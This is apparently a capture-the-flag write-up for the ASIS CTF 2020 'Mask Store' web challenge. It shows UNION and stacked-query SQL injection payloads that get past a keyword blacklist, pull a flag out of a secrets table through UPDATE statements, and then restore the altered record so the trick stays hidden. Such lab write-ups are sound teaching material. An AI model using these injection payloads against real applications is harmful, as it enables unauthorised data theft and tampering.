

# ASIS CTF 2020 - Mask Store
## Web

[App source](app.py)

### SQLi and Blacklist
The application is vulnerable to SQL injection in `/panel?orderid`

The orderid parameter does not allow the use of any of these words
```python
blacklist = ["information_schema","users","processlist","load","insert","into","mysql","innodb","benchmark","sleep","md5","sha","password"]
```
We use `group_concat` to get a list of all orders.
```
/panel?orderid='UNION SELECT 1,group_concat(concat('|',id,'|')) FROM orders -- -
|97ff-7337b9f98d67|,|a876-4717a0000009|,|fadd-n3b5b3a99d09|
```

### Admin interaction
We do not have privileges to interact with the entire database at this injection point, we need an administrator to visit our profile where we will enter the injection as our profile image.

```python
  if("username" in session and "id" in session and session["username"] == ADMIN_USERNAME and session["id"] == ADMIN_ID):
      cur = cursor
  else:
      cur = sandboxedCursor
```

### Testing Stacked Queries Update
The library used to make the MySQL requests could be vulnerable to Stacked Queries, allowing us to perform an INSERT or UPDATE query.

We tried to modify the id (the only field we know) of an order to 'PATATA'.

`?orderid=';UPDATE orders SET id='PATATA' WHERE id='fadd-n3b5b3a99d09' -- -`

We consulted the article 'PATATA' with satisfactory results.
```
/panel?orderid=PATATA
               <p class="pt-2">
                    Status: <span id="orderstat"></span><br>
                    Description: <span id="orderdes"></span>
                    <order uuid="fadd-n3b5b3a99d09" tstart="1607344412" description="Black masks" status="0" ></order>
                </p>
```
`|97ff-7337b9f98d67|,|a876-4717a0000009|,|PATATA|`


### Get Flag

As we do not know the size of the `id` field in the `secrets` table, we only enter 17 characters, also, by doing it in 2 parts we avoid that another team reads the flag if it casually lists the orders at that same moment

`';UPDATE orders set id=(SELECT substr(group_concat(flag),1,17) FROM secrets) WHERE id='PATATA' LIMIT 1 -- -`



`|97ff-7337b9f98d67|,|a876-4717a0000009|,|ASIS{0hhhhhhhhH_y|`

`';UPDATE orders set id=(SELECT substr(group_concat(flag),18,17) FROM secrets) WHERE id LIKE 'ASIS%' LIMIT 1 -- -`

`|97ff-7337b9f98d67|,|a876-4717a0000009|,|0U_G07_m3}|`

### Delete Flag

The last step is to restore the initial order ID to prevent another team from discovering the unintended solution.

`';UPDATE orders set id='fadd-n3b5b3a99d09' WHERE id LIKE '0%' -- -`
